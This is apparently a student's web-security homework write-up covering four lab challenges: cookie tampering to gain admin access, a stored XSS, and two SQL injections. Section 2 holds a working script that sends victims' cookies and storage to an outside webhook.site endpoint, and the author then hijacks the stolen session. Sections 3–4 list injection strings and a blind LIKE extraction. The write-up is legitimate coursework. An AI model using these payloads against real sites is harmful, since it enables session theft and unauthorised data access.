







# HW 3
Author: Derek Xu
# 1
Being an admin is most likely controlled by some sort of state on the client or server side. Looking at my cookies, I saw an "admin" cookie which I changed to True. This then allowed me to retrieve the secret.




This works most likely since the server is looking for an admin cookie when determining if a user is admin or not. Changing the cookie user side lets us get through that verification.

# 2
This is an XSS attack which also takes advantage of a non HTTP-Only cookie that can be read by Javascript.

Using webhook.site, you can setup a url that you can see all the calls made to it.

You can add a Javascript script to your posts and other clients will run the Javascript when they view your page.

```HTML
<script>
fetch('https://webhook.site/34b9219c-7413-4c75-a889-41c33a3a7459', {
    method: 'POST',
    body: JSON.stringify({
        cookies: document.cookie,
        url: location.href,
        localStorage: localStorage,
        sessionStorage: sessionStorage,
        document: document,
        referrer: document.referrer,
        userAgent: navigator.userAgent
  })
});
</script>
```

Then at my endpoint, I received the following request



Changing my session token to the one received, I was able to login and see Han Solo's secret



Whenever hansolo looks through my page, the inserted Javascript runs automatically and sends their cookies to my endpoint, allowing me to steal their session.

# 3
At the Retrieve message input, I first tried a variety of SQL injections including 

```SQL
" OR 1
```

This output `An error occurred: unrecognizedtokenOR1`

So I ended the quote and tried a variety of statements. I found that statements that equal true give the answer. 

```SQL
"" OR 1
1 OR 1
```

This gave me `1Sh0uldHaveH1dd3nThisBetter`


The SQL query is most likely checking for some sort of truth statement to give the secret message. So by giving it a truth statement, the SQL query succeeds.

# 4

After trying a variety of different SQL injections, I found that running SQL queries after a quote let me insert my own code. In the location finder, I first tried

```SQL
" OR "1" = "1`
```

This gave me a list of presumably all the users who have been at any location. I found "gianluca" as one of the users. 



Then I tried 

```SQL
" OR "1"
```


This gives an error `locname error` and I found out that the field name used for location names is "locname".

So I queried for locname like a string using wildcard symbols such as %.



After iterating and trying to find each letter one at a time, each successful letter returns a "gianluca was there". So I kept adding until the following worked for the flag.

```SQL
" OR "locname" LIKE "cogoleto%
```

The SQL query is most likely looking to insert the input at "%s". So we terminate the first quote, add our own SQL query and use the end quote for our own statements. This way we can run SQL injections.